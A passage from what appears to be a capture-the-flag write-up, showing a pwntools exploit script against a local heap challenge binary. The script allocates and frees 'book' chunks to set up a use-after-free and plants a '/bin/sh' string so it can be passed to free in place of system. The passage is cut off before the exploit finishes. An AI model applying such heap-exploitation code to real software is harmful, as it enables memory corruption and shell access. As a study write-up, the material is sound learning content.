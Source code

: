 ### Exploit

Putting it all together, we get the following exploit. Also when I was doing the exploit dev for this one, I'm not sure why but I had some I/O issues. In addition to that, this exploit is dependant on the libc version. So if you have a different libc version, you will need to swap out the libc file in the exploit:

```
from pwn import *

target = process('./challenge')
libc = ELF('./libc-2.27.so')# If you have a different libc version, swap it out here
#gdb.attach(target)

# function to add books
def addBook(size, price, payload):
    target.sendline('1')
    target.sendline(str(size))
    target.send(payload)
    target.sendline(str(price))
    print target.recvuntil('>')

# function to add books with a null byte in it's name
# for some reason, we need to send an additional byte
def addBookSpc(size, price, payload):
  target.sendline("1")
  target.sendline(str(size))
  target.sendline(payload)
  target.sendline("7")
  target.recvuntil(">")

# this is a function to delete books
def deleteBook(index):
    target.sendline('2')
    target.sendline(str(index))
    target.recvuntil('>')

# add a bunch of books to use late with the use after free
addBook(50, 5, "0"*50)
addBook(50, 5, "1"*50)
addBook(50, 5, "2"*50)
addBook(50, 5, "3"*50)
addBook(50, 5, "4"*50)
addBook(50, 5, "5"*50)
addBook(50, 5, "6"*50)
addBookSpc(50, 5, "/bin/sh\x00") # this book will contain the "/bin/sh" string to pass a pointer to free
addBook(50, 5, "8"*50)
addBook(50, 5, "9"*50)
addBook(50, 5, "x"*50)
addBook(50, 5, "y"*50)
addBook(50, 5, "9"*50)
addBook(50, 5, "q"*50)


# delete the books, to setup the use after free
deleteBook(0)
deleteBook(1)
deleteBook(2)
deleteBook(3)
deleteBook(4)
deleteBook(5)
deleteBook(6)
deleteBook(7)
```